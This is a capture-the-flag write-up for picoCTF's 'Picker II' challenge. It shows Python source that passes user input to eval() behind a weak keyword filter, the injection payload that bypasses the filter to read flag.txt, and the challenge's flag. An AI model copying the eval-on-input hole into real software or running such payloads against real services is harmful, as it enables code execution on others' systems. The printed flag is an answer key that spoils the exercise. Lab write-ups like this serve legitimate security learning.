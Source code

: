
<!DOCTYPE html>
<html>
 
<body>
    <h1>Picker II- picoGym Exclusive</h1>

    <h2>Challenge Description</h2>
    <p> AUTHOR: LT 'SYREAL' JONES

Description
Can you figure out how this program works to get the flag?
Additional details will be available after launching your challenge instance.
------------------------------------------------------------------------------
Connect to the program with netcat:
$ nc saturn.picoctf.net 56676
The program's source code can be downloaded <a href="https://artifacts.picoctf.net/c/522/picker-II.py">here</a>.

</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
    we download source and see is like<a href="https://phantom1ss.github.io/blog/2024/practice/picoctf/PickerI/writeup1.md">l picker I </a>except that it hss filter for prevent input  win and get flag
<pre>
def filter(user_input):
  if 'win' in user_input:
    return False
  return True


while(True):
  try:
    user_input = input('==> ')
    if( filter(user_input) ):
      eval(user_input + '()')
    else:
      print('Illegal input')
  except Exception as e:
    print(e)
</pre>
but like previous code can have input print('hi') all input should be like functions and can't have input like cat flag.txt
some inputs are like this<pre>
==> cat flag.txt
invalid syntax (<string>, line 1)
==> print('hi')
hi
'NoneType' object is not callable
==> exit
.....
</pre>
in hint say see what win function do.see win function code
<pre>
def win():
  # This line will not work locally unless you create your own 'flag.txt' in
  #   the same directory as this script
  flag = open('flag.txt', 'r').read()
  #flag = flag[:-1]
  flag = flag.strip()
  str_flag = ''
  for c in flag:
    str_flag += str(hex(ord(c))) + ' '
  print(str_flag)
  </pre>
and this code that is like function and print flog is interested
<pre>
flag=open('flag.txt', 'r').read()
</pre>
so for print flag just input this and get flag
<pre>
==> print(open('flag.txt', 'r').read())
</pre>

    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for work on reverse engineering with python and bypass filter input</p>
</body>
</html>





